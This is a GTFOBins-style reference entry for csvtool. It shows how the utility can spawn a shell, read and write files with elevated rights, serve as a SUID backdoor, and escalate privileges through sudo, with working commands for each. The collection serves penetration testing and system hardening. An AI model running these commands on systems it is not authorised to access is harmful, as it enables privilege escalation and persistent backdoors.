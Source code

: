 # GTFOBin: csvtool

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
csvtool call '/bin/sh;false' /etc/passwd
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.

```
LFILE=file_to_write
TF=$(mktemp)
echo DATA > $TF
csvtool trim t $TF -o $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.

```
LFILE=file_to_read
csvtool trim t $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which csvtool) .

LFILE=file_to_read
./csvtool trim t $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo csvtool call '/bin/sh;false' /etc/passwd
```
